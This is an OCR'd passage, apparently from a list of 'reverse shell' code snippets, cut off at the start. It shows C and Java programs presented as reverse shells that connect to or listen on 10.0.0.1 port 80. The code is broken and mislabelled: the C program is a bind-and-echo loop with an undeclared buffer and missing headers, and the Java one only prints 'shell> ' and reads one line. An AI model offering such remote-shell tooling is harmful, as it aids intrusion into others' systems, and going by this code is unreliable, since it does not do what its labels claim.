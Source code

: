 ```c
            if (buf[0] == '\x00') break;
            write(sfd, buf, 1024);
        }
        close(sockfd);
        close(sfd);
    }
    return 0;
}
```

2. Reverse shell with a twist:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    int sockfd, sfd;
    struct sockaddr_in servaddr, cliaddr;
    memset(&servaddr, 0, sizeof(struct sockaddr_in));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(80);
    if (inet_pton(AF_INET, "10.0.0.1", &(servaddr.sin_addr)) == 1) {
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        bind(sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
        listen(sockfd, 1);
        sfd = accept(sockfd, (struct sockaddr *)&cliaddr, sizeof(cliaddr));
        while(1) {
            read(sfd, buf, 1024);
            if (buf[0] == '\x00') break;
            write(sfd, buf, 1024);
        }
        close(sockfd);
        close(sfd);
    }
    return 0;
}
```

**Java**

1. Simple reverse shell:
```java
import java.io.*;
import java.net.*;

public class ReverseShell {
    public static void main(String[] args) throws Exception {
        Socket socket = new Socket("10.0.0.1", 80);
        PrintWriter writer = new PrintWriter(socket.getOutputStream(), true);
        BufferedReader reader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
        writer.println("shell> ");
        String response = reader.readLine();
        System.out.println(response);
    }
}
```
